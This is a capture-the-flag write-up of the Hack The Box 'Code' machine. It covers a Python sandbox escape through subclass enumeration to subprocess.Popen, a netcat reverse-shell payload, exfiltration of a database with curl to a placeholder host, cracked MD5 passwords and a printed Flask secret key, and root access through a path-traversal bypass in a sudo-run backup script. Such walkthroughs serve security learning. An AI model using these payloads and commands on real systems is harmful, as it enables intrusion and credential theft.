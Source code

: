 https://app.hackthebox.com/machines/653

## ENUM

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
```

site hosted at: [http://10.10.11.62:5000/](http://10.10.11.62:5000/)

```
===============================================================
[+] Url:                     http://10.10.11.62:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 818]
/codes                (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 730]
/logout               (Status: 302) [Size: 189] [--> /]
/register             (Status: 200) [Size: 741]
Progress: 4614 / 4615 (99.98%)
===============================================================
```

I will now use the site normally with Burp to analyze the traffic.

## INITIAL ACCESS

By using the service, I register a code and access it via the interface located at [http://10.10.11.62:5000/codes](http://10.10.11.62:5000/codes)

![alt text](note/ctf/asset/HTB_code0.png)

I notice the ID which may possibly be a lead to follow.

I will analyze the traffic in detail now that I have tested the service.

I find this cookie after my registration:
`.eJzNj7EKAjEQRH9l3TpcY3d_IFiInchxLMleXIgbyCaKHPfvphVLG6sp3ryBWXFeEtmNDcfrilB74J3NKDI6PHMUq4WqZAVr3neytLSDS27gSUHzE1KOIDrgtLnvhYM-KEkAXziwVqFkA5wSkzHU8gKK9Hfu76-POcqH2muTw2ZcZgk47rc3MC-Avg.aGhhzw.XzQb8mECgGghn8HdWybDRBwF9h8`

I try exploiting the code ID but nothing interesting…

I focus on the code window itself.

I can’t do imports etc. However, it does display complete errors (via `raise`, `Exception`, etc.). Maybe I can leak something?

I will try to leak the classes loaded in memory. Why?

To find a library already loaded (so without import) and use it without being blacklisted!

To find useful classes to execute code such as subprocess.Popen which allows executing commands:

```python
classes = (()).__class__.__bases__[0].__subclasses__()
for i, cls in enumerate(classes):
    print(i, cls)
```

and I find it here: `317 <class 'subprocess.Popen'>`

I try to execute it like this:
`(()).__class__.__bases__[0].__subclasses__()[317]("ls", shell=True).communicate()`

but it doesn’t work, so I use raise!

```python
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](  
    "whoami", shell=True, stdout=-1).communicate()))
```

![alt text](note/ctf/asset/HTB_code1.png)

Perfect, I generate a reverse shell payload!

```python
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](  
    "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.123 4848 >/tmp/f", shell=True, stdout=-1).communicate()))
```

And I can display user.txt.

## OWN USER:

Now that I am on the machine, I will search some files including app.py which corresponds to the application, I find interesting elements:

```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```

I see a secret key and a database.

```shell
root:x:0:0:root:/root:/bin/bash
...
app-production:x:1001:1001:,,,:/home/app-production:/bin/bash
martin:x:1000:1000:,,,:/home/martin:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

So a user named martin and root (since im app-production).

And if the database contained martin’s password?

I exfiltrate it: `curl -F 'data=@/home/app-production/app/instance/database.db' http://ip:port`

and I find:

| user        | password                         |
| ----------- | -------------------------------- |
| development | 759b74ce43947f5f4c91aeddc3e5bad3 |
| martin      | 3de6f30c4a09c27fc71932bfc68474be |

I try SSH login with it but it doesn’t work and that’s normal… it looks a lot like an MD5 hash! I crack it: `nafeelswordsmaster`

`ssh martin@10.10.11.62`

and it works!

I crack the dev one just in case: `development`

Here are the interesting results from linpeas:

#### Linpeas results:

processes running as root:

```
root         851  0.0  0.2 241372 11340 ?        Ssl  Jul04   0:00 /usr/sbin/ModemManager
...
root        3075  0.0  0.2 249528  9512 ?        Ssl  Jul04   0:00 /usr/lib/upower/upowerd
```

#### BIG LEAD

```
Matching Defaults entries for martin on localhost:                                                                                                                                                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

I analyze the script:

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

It parses a JSON used to make a backup with backy, so if I provide a good JSON that extracts root (via a custom path traversal that bypasses the filter: `updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file"))`

then I will be able to own root. I look for documentation:

[https://github.com/vdbsh/backy](https://github.com/vdbsh/backy) perfect, I cook the JSON:

```json
{
  "destination": "/home/martin",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
  ]
}
```

I execute it: `sudo /usr/bin/backy.sh payload.json`

and I retrieve the tar.gz file:
`scp martin@10.10.11.62:/home/martin/code_home_.._root_2025_July.tar.bz2 .`

and I own root! ✅
